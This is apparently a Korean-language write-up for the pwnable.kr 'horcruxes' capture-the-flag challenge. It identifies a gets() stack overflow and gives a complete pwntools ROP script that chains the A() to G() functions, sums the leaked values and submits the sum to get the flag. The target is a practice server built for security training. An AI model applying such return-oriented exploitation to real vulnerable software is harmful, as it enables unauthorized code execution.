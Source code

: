 # [pwnable.kr] horcruxes

> Voldemort concealed his splitted soul inside 7 horcruxes.
> Find all horcruxes, and ROP it!
> author: jiwon choi
>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)
>
> [Attachment](./attachment)

## Bug

![image](https://github.com/user-attachments/assets/0b9bc9c6-cf3c-4904-aaaa-6115016c092b)

`ropme()`의 `gets(s)`에서 stack buffer overflow가 발생한다.

## Exploit

`ropme()`의 return address를 플래그를 읽어와서 출력하는 코드의 주소로 덮으면 될 것 같지만, 주소에 `0x0a`가 포함되기 때문에 불가능하다. 대신 `A()`부터 `G()`까지 모두 호출하여 `a`부터 `g`까지의 값을 알아낸 후 `sum`을 알맞게 입력하면 플래그를 획득할 수 있다.

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9032)

sla = r.sendlineafter

A = 0x809FE4B  # A()
B = 0x809FE6A  # B()
C = 0x809FE89  # C()
D = 0x809FEA8  # D()
E = 0x809FEC7  # E()
F = 0x809FEE6  # F()
G = 0x809FF05  # G()
main = 0x809FF24  # main()

sla(b"Select Menu:", b"0")

payload = b"A" * 0x78
payload += p32(A)
payload += p32(B)
payload += p32(C)
payload += p32(D)
payload += p32(E)
payload += p32(F)
payload += p32(G)
payload += p32(main + 216)  # call ropme

sla(b"How many EXP did you earned? : ", payload)

r.recvuntil(b"EXP +")
a = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
b = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
c = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
d = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
e = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
f = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
g = int(r.recvuntil(b")")[:-1])

sum = a + b + c + d + e + f + g
if sum > 0x7FFFFFFF:
    sum -= 0x100000000

sla(b"Select Menu:", b"0")
sla(b"How many EXP did you earned? : ", str(sum).encode())

r.interactive()
```

![image](https://github.com/user-attachments/assets/13886f51-f545-45c6-a400-733c2a92eae3)
